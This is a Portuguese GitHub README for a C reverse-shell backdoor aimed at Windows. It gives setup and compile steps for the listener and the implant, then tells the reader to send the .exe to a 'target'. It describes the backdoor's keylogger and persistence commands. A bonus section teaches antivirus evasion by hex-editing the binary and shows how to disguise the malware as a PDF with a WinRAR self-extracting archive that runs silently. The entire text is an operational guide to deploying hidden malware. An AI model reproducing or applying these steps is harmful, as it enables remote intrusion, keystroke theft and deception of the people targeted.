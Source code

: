# Backdoor C
Backdoor Feita em C com algumas 2 funcionalidades extras 
## Pre-requisitos
Você ira precisar ter o gcc instalado
```
sudo apt install gcc
```
Ira precisar do mingw
```
sudo apt install mingw-w64
```
E também ira precisar de qualquer editor de texto
## Como Configurar corretamente
Primeiro abra o arquivo ```Backdoor.c``` e modifique as linhas 145 e 146 mudando o endereço IP e porta

Depois faça o mesmo no ```server.c``` porem nas linhas 28 e 29 depois basta compilar
## Como compilar
Primeiro vamos compilar o ```server.c``` usando o ```gcc```
```
gcc server.c -o ArquivoFinal
```
Depois de compilado vamos para o arquivo principal 
porem iremos compilar para Windows 32bits então usaremos o ```mingw```
<details>
  <summary>:zap: Por que 32bits ?</summary>

  Quando compilado em 32bits ele ira poder rodar em qualquer computador windows inclusive  64bits

</details>

```
i686-w64-mingw32-gcc -o NomeDaBackdoor.exe Backdoor.c -lwsock32 -lwininet
```
## Como usar 
Primeiro iremos iniciar o listener em nossa maquina
```
./ArquivoFinal
```
Depois enviamos o aquivo ```.exe``` para o "Alvo"

E logo quando ele executar o arquivo iremos receber uma conexao reversa
## Comandos
As 2 funcionalidades extras sao um keylogger e uma persistencia

executando o comando 
```
keylog_start
```
O seu keylogger ira iniciar ele ira salvar todas as saida do teclado em um arquivo chamado "windows.txt"

Para ler o arquivo com as saidas digite
```
type windows.txt
```
<details>
  <summary>:zap:oque e um keylogger ?</summary>
  
  keylogger nada mais e do que um programa que captura tudo que for digitado
</details>
O segundo comando e da persistencia

iniciamos ele executando 
```
persistence
```
Ele ira nos retornar uma saida nos dizendo a onde foi criada a persistencia


<details>
  <summary>:zap:oque e uma persistencia ?</summary>
  Persistencia e basicamento um script que quando executado ira fazer
  
  o seu malware ser executado sempre que o PC for ligado
</details>

# Bonus
Nesse bonus eu irie te mostras algumas formas de deixar sua backdoor "indetectavel"

## Modificando o codigo HEX
Eu irie te mostrar como modificar o codigo Hex da nossa backdoor 

Para deixar ela ainda mais indetectavel

Primeiro iremos usar um programa chamado ```ghex```

Para instalar o mesmo use 
```
sudo apt-get install ghex
```
Logo depois iremos abrir o editor em nosso arquivo .exe
```
ghex malware.exe
```
E ira ver algo parecido com isso


![Screenshot from 2020-09-16 13-06-16](https://user-images.githubusercontent.com/62577914/93418429-64418180-f878-11ea-86a6-09c611230ae3.png)


Agora nos iremos modificar apenas as strings
Voce deve modificar apenas na onde ta escrito "This program cannot be run in DOS"
Localize essa parte usando as setas do teclado 
voce podera inserir qualquer valor decimal
Voce tambem podera comentar no ```Backdoor.c``` coisa aleatorias que ira ajudar 

## Escondendo em arquivo PDF
voce ira precisar de um ico de um pdf qualquer e do malware(obvio)
e do [winrar](//www.win-rar.com/)

voce podera encotrar a imagem no [Iconfinder](https://www.iconfinder.com/)
entao pesquise por PDF e escolha a desejada
voce ira ver algo parecido com isso 
![Screenshot from 2020-09-17 00-16-36](https://user-images.githubusercontent.com/62577914/93419836-d4053b80-f87b-11ea-859d-6e7a21733121.png)
E entao clique em "Download Icon in PNG"

Mas nos nao queremos uma imagem .png mas sim .ico

entao usaremos o site [Icoconverte](https://icoconvert.com/)
clique em "choose file" e escolha imagem que baixamos anteriormente e entao clique em upload
![Screenshot from 2020-09-17 00-23-42](https://user-images.githubusercontent.com/62577914/93420439-e16ef580-f87c-11ea-8ed0-a2168d79861f.png)

E entao escolha o tamanho de 64x64 entao clique em "convert to ICO" depois basta baixar ela
![Screenshot from 2020-09-16 14-10-43](https://user-images.githubusercontent.com/62577914/93420787-b1742200-f87d-11ea-99a1-99a130719a6d.png)


Agora iremos juntar todos em um so

Primeiro selecione o arquivo PDF e o malware clique com o botao direito e va em "add to archive"
![Screenshot from 2020-09-16 14-04-03](https://user-images.githubusercontent.com/62577914/93420905-ff892580-f87d-11ea-831d-b4f04ab96787.png)
E entao no campo nome coloque 
```
nome do arquivo.pdf.exe
```
Fazendo isso ira automaticamente marcar uma opcao SFX

Depois fazendo isso va em advanced > advanced SFX options > setup

E em "Run after extraction" coloque o nome do arquiv ```pdf``` e em baixo o nome do ```malware```
![Screenshot from 2020-09-17 00-39-07](https://user-images.githubusercontent.com/62577914/93421243-cf8e5200-f87e-11ea-9676-c2c7e2b49988.png)

Depois va para ```modes``` e marque a opção ```[] Unpack to temporary folder``` e ```hide all```
assim como mostrado na imagen ![Screenshot from 2020-09-24 21-07-34](https://user-images.githubusercontent.com/62577914/94215613-375e2180-feab-11ea-9777-f918d8ecf93e.png)


Depois va em ```Text and icon``` e logo a baixo na opção ```Load SFX icon from the file``` 
clique em ```browser``` e selecione o ```.ico```que baixamos anteriormente

Depois va em ```update``` e marque a opção ```Extract and update files```
e tambem ```Overwrite all files``` 
Agora voce pode comfirmar tudo clicando em ```ok```

Apos fazer a confirmação o arquivo ira ser criado

visualmente se parece identico ao um arquivo pdf 
![Screenshot from 2020-09-24 21-24-47](https://user-images.githubusercontent.com/62577914/94216459-65446580-fead-11ea-890a-62a49219738d.png)

# E pronto seu arquivo PDF malicioso foi criado
# Caso queira esconder em uma imgem basta fazer o mesmo processo apenas subistituindo a extensão e nome
